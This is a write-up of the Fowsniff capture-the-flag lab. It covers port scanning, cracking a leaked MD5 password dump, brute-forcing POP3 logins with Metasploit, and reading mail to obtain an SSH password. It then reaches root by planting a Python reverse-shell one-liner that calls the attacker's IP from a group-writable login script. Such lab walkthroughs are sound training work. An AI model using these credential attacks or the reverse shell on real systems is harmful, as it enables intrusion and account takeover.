


## Task 1: Hack into the FowSniff organization
### Introduction
This boot2root machine is brilliant for new starters. You will have to enumerate this machine by finding open ports, do some online research (its amazing how much information Google can find for you), decoding hashes, brute forcing a pop3 login and much more! <br>
This will be structured to go through what you need to do, step by step. Make sure you are connected to our network. <br>

## Questions
### Using nmap, scan this machine. What ports are open?
I found out that ports 22, 80, 110, and 143 are open. <br>
Nmap scan results: <br>
```
fowsniffCTF nmap -sV -sC -O -A -T4 10.10.43.65 -oN fowsniff
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-05 03:06 EDT
Nmap scan report for 10.10.43.65
Host is up (0.15s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
| http-robots.txt: 1 disallowed entry 
|_/
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) USER CAPA AUTH-RESP-CODE PIPELINING TOP RESP-CODES UIDL
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: LITERAL+ listed ENABLE SASL-IR LOGIN-REFERRALS IMAP4rev1 have more post-login ID AUTH=PLAINA0001 IDLE Pre-login capabilities OK
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=8/5%OT=22%CT=1%CU=44388%PV=Y%DS=2%DC=T%G=Y%TM=6891ADAB
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10B%TI=Z%CI=I%TS=8)SEQ(SP=10
OS:1%GCD=1%ISR=10E%TI=Z%CI=I%TS=8)SEQ(SP=103%GCD=1%ISR=109%TI=Z%CI=I%TS=8)S
OS:EQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=I%TS=8)SEQ(SP=107%GCD=1%ISR=10A%TI=Z%CI=
OS:I%TS=8)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%
OS:O5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W
OS:6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=
OS:O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD
OS:=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0
OS:%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1
OS:(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=N)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   155.79 ms 10.8.0.1
2   155.90 ms 10.10.43.65

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.96 seconds
```

### Using the information from the open ports. Look around. What can you find?
On port 80, it shows the company website. <br>

The 'robots.txt' has nothing of interest. <br>
I tried bruteforcing for hidden directories using gobuster and ffuf, I got nothing of interest as well. <br>
Gobuster: <br>
```
fowsniffCTF cat gobuster.log 
/index.html           (Status: 200) [Size: 2629]
/.html                (Status: 403) [Size: 291]
/images               (Status: 301) [Size: 311] [--> http://10.10.43.65/images/]
/security.txt         (Status: 200) [Size: 459]
/assets               (Status: 301) [Size: 311] [--> http://10.10.43.65/assets/]
/README.txt           (Status: 200) [Size: 1288]
/robots.txt           (Status: 200) [Size: 26]
/LICENSE.txt          (Status: 200) [Size: 17128]
```

### Using Google, can you find any public information about them?
From the company's website, there is information about it being pwned. Searching through online, I got a github repository by berzek0 which contains the company's password leak file. <br>
```
FOWSNIFF CORP PASSWORD LEAK
            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |         
|       .oooO                |         
|        (   )   Oooo.       |         
+---------\ (----(   )-------+
           \_)    ) /
                 (_/
FowSniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!
 
 
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
 
Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!
```

### Can you decode these md5 hashes? You can even use sites like hashkiller to decode them.
The hashes: <br>
```
fowsniffCTF cat hashes.txt   
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
```
I prefered using john to decode the md5 hashes. You can also use 'hashkiller' to your liking.<br>
```
john --format=raw-md5 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
Results: <br>
```
fowsniffCTF john --format=raw-md5 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 9 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
scoobydoo2       (seina@fowsniff)     
orlando12        (parede@fowsniff)     
apples01         (tegel@fowsniff)     
skyler22         (baksteen@fowsniff)     
mailcall         (mauer@fowsniff)     
07011972         (sciana@fowsniff)     
carp4ever        (mursten@fowsniff)     
bilbo101         (mustikka@fowsniff)     
8g 0:00:00:01 DONE (2025-08-05 03:55) 6.611g/s 11853Kp/s 11853Kc/s 30316KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

### Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?
I saved the usernames and passwords to separate files each, users.txt and passwords.txt. <br>
The usernames: <br>
```
fowsniffCTF cat users.txt    
seina
parede
tegel
baksteen
mauer
sciana
mursten
mustikka
```
The passwords: <br>
```
fowsniffCTF cat passwords.txt 
scoobydoo2
orlando12
apples01
skyler22
mailcall
07011972
carp4ever
bilbo101
```
I then fired up metasploit and searched for 'pop3'. <br>

In the options, I set the rhosts as the ip given, set the pass_file and the user_file. <br>
```
msf6 auxiliary(scanner/pop3/pop3_login) > options

Module options (auxiliary/scanner/pop3/pop3_login):

   Name              Current Setting                                 Required  Description
   ----              ---------------                                 --------  -----------
   ANONYMOUS_LOGIN   false                                           yes       Attempt to login with a blank username and password
   BLANK_PASSWORDS   false                                           no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                               yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                           no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                           no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                           no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                            no        Skip existing credentials stored in the current database (Accepted: none, user, user&r
                                                                               ealm)
   PASSWORD                                                          no        A specific password to authenticate with
   PASS_FILE         /home/b33tl3/Desktop/tryhackme/fowsniffCTF/pas  no        The file that contains a list of probable passwords.
                     swords.txt
   RHOSTS            10.10.43.65                                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using
                                                                               -metasploit.html
   RPORT             110                                             yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                           yes       Stop guessing when a credential works for a host
   THREADS           1                                               yes       The number of concurrent threads (max one per host)
   USERNAME                                                          no        A specific username to authenticate as
   USERPASS_FILE                                                     no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                           no        Try the username as the password for all users
   USER_FILE         /home/b33tl3/Desktop/tryhackme/fowsniffCTF/use  no        The file that contains a list of probable users accounts.
                     rs.txt
   VERBOSE           true                                            yes       Whether to print output for all attempts


View the full module info with the info, or info -d command.
```
After running, I got a success log in. <br>
```
msf6 auxiliary(scanner/pop3/pop3_login) > run
[+] 10.10.43.65:110       - 10.10.43.65:110 - Success: 'seina:scoobydoo2' '+OK Logged in.  '
[!] 10.10.43.65:110       - No active DB -- Credential data will not be saved!
[-] 10.10.43.65:110       - 10.10.43.65:110 - Failed: 'parede:scoobydoo2', '-ERR [AUTH] Authentication failed.'
[-] 10.10.43.65:110       - 10.10.43.65:110 - Failed: 'parede:orlando12', '-ERR [AUTH] Authentication failed.'
[-] 10.10.43.65:110       - 10.10.43.65:110 - Failed: 'parede:apples01', '-ERR [AUTH] Authentication failed.'
[-] 10.10.43.65:110       - 10.10.43.65:110 - Failed: 'parede:skyler22', ''
[-] 10.10.43.65:110       - 10.10.43.65:110 - Failed: 'parede:mailcall', ''
[-] 10.10.43.65:110       - 10.10.43.65:110 - Failed: 'parede:07011972', ''
[-] 10.10.43.65:110       - 10.10.43.65:110 - Failed: 'parede:carp4ever', ''
[-] 10.10.43.65:110       - 10.10.43.65:110 - Failed: 'parede:bilbo101', ''
[-] 10.10.43.65:110       - 10.10.43.65:110 - Failed: 'tegel:scoobydoo2', ''
[-] 10.10.43.65:110       - 10.10.43.65:110 - Failed: 'tegel:orlando12', ''
```
Successful login for '_seina_' using the password '_scoobydoo2_'.

### What was seina's password to the email service?
Password: _scoobydoo2_

### Can you connect to the pop3 service with her credentials? What email information can you gather?
To connect to the pop3 service, I used _nc <ip> 110_, 110 being the port number for the pop3 service. <br>
```
fowsniffCTF nc 10.10.43.65 110
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
LIST
+OK 2 messages:
1 1622
2 1280
.
RETR 1
+OK 1622 octets
```
From the first email, I got some information about a temporary for SSH. <br>
```
Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via 
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.

Thanks,
A.J Stone
```

### Looking through her emails, what was a temporary password set for her?
Temporary password: _S1ck3nBluff+secureshell_

### In the email, who send it? Using the password from the previous question and the senders username, connect to the machine using SSH.
 <br>
This email was send by user 'stone'. <br>
Well I tried stone and it didn’t work. <br>
I read through the second email and it was send by a different user, _baksteen_ to _seina_. <br>
 <br>
I tried that and booom! I got a shell! <br>
```
fowsniffCTF ssh baksteen@10.10.43.65
baksteen@10.10.43.65's password: 

                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions


   ****  Welcome to the Fowsniff Corporate Server! **** 

              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
 * Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.


Last login: Tue Mar 13 16:55:40 2018 from 192.168.7.36
baksteen@fowsniff:~$ 
```

### Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?
```
baksteen@fowsniff:~$ ls -la
total 40
drwxrwx---  4 baksteen baksteen 4096 Mar 13  2018 .
drwxr-xr-x 11 root     root     4096 Mar  8  2018 ..
-rw-------  1 baksteen users       1 Mar 13  2018 .bash_history
-rw-r--r--  1 baksteen users     220 Aug 31  2015 .bash_logout
-rw-r--r--  1 baksteen users    3771 Aug 31  2015 .bashrc
drwx------  2 baksteen users    4096 Mar  8  2018 .cache
-rw-r--r--  1 baksteen users       0 Mar  9  2018 .lesshsQ
drwx------  5 baksteen users    4096 Mar  9  2018 Maildir
-rw-r--r--  1 baksteen users     655 May 16  2017 .profile
-rw-r--r--  1 baksteen users      97 Mar  9  2018 term.txt
-rw-------  1 baksteen users    2981 Mar 13  2018 .viminfo
baksteen@fowsniff:~$ cat term.txt 
I wonder if the person who coined the term "One Hit Wonder" 
came up with another other phrases.
baksteen@fowsniff:~$ id
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
baksteen@fowsniff:~$ 
```
Using _find / -group users -type f 2>/dev/null_ we can find files owned by users group.
I found an interesting file named: _/opt/cube/cube.sh_
```
baksteen@fowsniff:~$ find / -group users -type f 2>/dev/null
/opt/cube/cube.sh
/home/baksteen/.cache/motd.legal-displayed
/home/baksteen/Maildir/dovecot-uidvalidity
/home/baksteen/Maildir/dovecot.index.log
/home/baksteen/Maildir/new/1520967067.V801I23764M196461.fowsniff
/home/baksteen/Maildir/dovecot-uidlist
/home/baksteen/Maildir/dovecot-uidvalidity.5aa21fac
/home/baksteen/.viminfo
/home/baksteen/.bash_history
/home/baksteen/.lesshsQ
/home/baksteen/.bash_logout
/home/baksteen/term.txt
/home/baksteen/.profile
/home/baksteen/.bashrc
```
This file that can be edited by the group and we can add a reverse shell in it. Here I used the reverse shell given in the room: <br>
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
I set the ip address to my attacker's ip and set up a listener: _nc -lvnp 1234_ <br>
```
baksteen@fowsniff:~$ nano /opt/cube/cube.sh
baksteen@fowsniff:~$ cat /opt/cube/cube.sh
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.148.168",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Now that I have added the reverse shell, I need to login again. <br>
On my listener, I got root!! <br>
```
fowsniffCTF nc -lvnp 1234         
listening on [any] 1234 ...
connect to [10.8.148.168] from (UNKNOWN) [10.10.43.65] 41364
/bin/sh: 0: can't access tty; job control turned off
# ls
bin
boot
dev
etc
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
# id
uid=0(root) gid=0(root) groups=0(root)
```
In the root directory, there is a file named 'flag.txt' <br>
```
# cd root
# ls
Maildir
flag.txt
# cat flag.txt
   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
  |
  |
  |
  |
 ---

Nice work!

This CTF was built with love in every byte by @berzerk0 on Twitter.

Special thanks to psf, @nbulischeck and the whole Fofao Team.
```
### Conclusion
The Fowsniff CTF is an excellent beginner-friendly room that guides you through a wide range of fundamental skills in penetration testing. From basic enumeration with nmap, to hash cracking with hashkiller and john, and brute forcing services using Metasploit, this machine offers a hands-on introduction to many real-world techniques. <br>

One of the key takeaways is the importance of information gathering - both through scanning tools and open-source intelligence (OSINT). We learned how leaked credentials on public platforms like GitHub can be leveraged in an attack and how insecure protocols (like POP3 without encryption) can expose sensitive data. This scenario also demonstrates the dangers of poor password hygiene and outdated services. <br>

Privilege escalation in this CTF required analyzing group permissions and identifying misconfigured scripts, showing how even minor oversights can lead to full system compromise. <br>

Ultimately, Fowsniff reinforces several core lessons: <br>
 - Always patch and update systems regularly.
 - Sanitize input to avoid injection attacks.
 - Enforce strong password policies.
 - Limit user privileges wherever possible. 

For anyone starting out in ethical hacking, this room is a well-paced, practical introduction to boot2root challenges. A great exercise in thinking like an attacker - while building the mindset of a defender.